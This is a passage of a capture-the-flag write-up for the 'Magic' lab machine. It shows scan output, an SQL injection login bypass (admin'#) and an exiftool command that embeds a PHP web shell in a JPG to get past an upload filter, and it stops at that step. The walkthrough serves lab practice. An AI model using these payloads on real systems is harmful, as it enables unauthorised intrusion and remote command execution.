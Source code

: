 ----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. root@nidus:~# nmap -Pn -sC -sV -n 10.10.10.185
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
    |   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
    |_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Magic Portfolio
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    DIRB:
    + http://10.10.10.185/index.php (CODE:200|SIZE:4052)
    + http://10.10.10.185/server-status (CODE:403|SIZE:277)

    NIKTO:
    + IP address found in the 'location' header. The IP is "127.0.1.1".
    + Cookie PHPSESSID created without the httponly flag
    + DEBUG HTTP verb may show server debugging information.
    + /login.php: Admin login page/section found.


2. Looking on the webpage we find a few images, however nothing interesting. On login.php we are prompted with username/password.
   There's nothing obvious, no usernames, no passwords. Looking for ways to bypass the login, first thing we should try is SQLi.

    Username: admin'#
    Password: <blank>

   Allows us to bypass the login. We are now prompted with a upload feature.


3. The upload only allows us to upload images. Trying to upload a script or .php-file and changing the mime type through burp is not
   possible. Instead we can create a malicious .jpg-file with embedded code to give us code execution.

   root@nidus:~/Pictures# exiftool -DocumentName="<h1>Player Three Has Entered The Game<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" skull.jpg
    1 image files updated
